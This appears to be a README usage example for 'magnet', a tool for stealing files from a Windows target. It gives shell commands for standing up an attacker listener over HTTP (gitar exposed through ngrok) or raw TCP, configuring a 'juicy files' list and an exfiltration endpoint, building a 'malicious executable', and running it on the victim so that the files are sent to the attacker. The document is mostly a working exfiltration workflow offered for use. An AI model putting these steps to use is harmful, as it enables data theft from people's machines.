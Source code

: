# Example

Below is a complete example of `magnet` usage

## Send trough HTTP
### Pre-requisites
* [`gitar`](https://github.com/ariary/gitar) but you could use the HTTP server of your choice, as long as file upload is possible
* [`ngrok`](https://ngrok.com/)
* [`lobfuscator`](https://github.com/ariary/magnet/blob/main/README.md#build-lobfuscator)
* Clone `magnet` repository and go inside it

Our target run a windows device

### 1. Set up attacker listener

Using 
```shell
## Launch HTTP Upload server
gitar
## Expose the server using
ngrok http 9292 #copy ngrok endpoint
```

### 2. Set environment variables
```shell
export TARGET_OS=windows
export FILES=samples/windows_juicy_files.txt
export ENDPOINT=[NGROK_HTTPS_ENDPOINT]/[GITAR_RANDOM_PATH]/push
export KEY=thisismytestkey
export METHOD=http
```

### 3. Build malicious executable
```shell
 go mod tidy
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
#build magnet.exe
```

### 4. Watch the magic happen

Transfer the executable on windows machine, execute it and observe:
```cmd
.\magnet.exe
```

On gitar listener you should receive the files


## Send trough raw TCP

### 1. Set up attacker listener

If you are waiting 3 files:
```shell
./examples/listen_tcp.sh [PORT] 3
```
### 2. Set environment variables
```shell
...
export ENDPOINT=[IP:PORT]
...
export METHOD=tcp
```

### 3. Build and exec

Build:
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY $METHOD
```

And exec on target:
```cmd
.\magnet.exe
```

***Notes:*** the filename on attacker machine won't reflect the actual filename on target

